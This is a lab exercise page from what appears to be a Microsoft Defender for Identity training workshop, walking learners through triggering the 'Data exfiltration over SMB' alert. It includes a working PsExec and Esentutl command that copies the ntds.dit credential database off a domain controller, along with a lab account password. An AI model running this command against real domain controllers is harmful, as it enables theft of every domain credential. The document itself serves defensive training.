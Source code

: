 ```yaml
---
title: '1. Data exfiltration over SMB'
layout: default
nav_order: 1
parent: 'Day 2: Attack, detect, and investigate. Exercise 6: Other alerts'
---
```


# Task 6.1: Data exfiltration over SMB

This alert is triggered when suspicious transfers of data are observed from your monitored domain controllers, such as when an attacker copies the ntds.dit file from a domain controller to a workstation.

Tools used in this test: Sysinternals downloads

1. Open a new RDP session to WIN6 using the **WIN6.rdp** file in the Downloads folder, and then select **More choices\\Use a different account** to sign in using **MSMDI\SamiraA** using the password **Passw0rd12!@**

1. Right-click the **Windows icon**, and then select **Windows PowerShell (Admin)** to open an elevated PowerShell window, and then run:

    ```PowerShell-wrap
    C:\Tools\PSTools\PsExec.exe \\DC01 -accepteula c:\windows\system32\Esentutl.exe /y /i c:\ntds\ntds.dit /d c:\Tools\ntds.dit /vssrec ; Copy-Item -Path "\\DC01\Tools\ntds.dit" -Destination "C:\Tools"
    ```

The Data exfiltration over SMB alert is triggered when the file is copied off the DC.

Select an alert name to show the alert details page.
 
Keep in mind that Defender for Identity can also track files uploaded from a workstation or server to a domain controller, which can be useful for detecting abnormal activities. Check for copied files listed in the user page's **Timeline** tab.

For more information, review [Data exfiltration over SMB (external ID 2030)](https://learn.microsoft.com/en-us/defender-for-identity/other-alerts#data-exfiltration-over-smb-external-id-2030 "Data exfiltration over SMB").
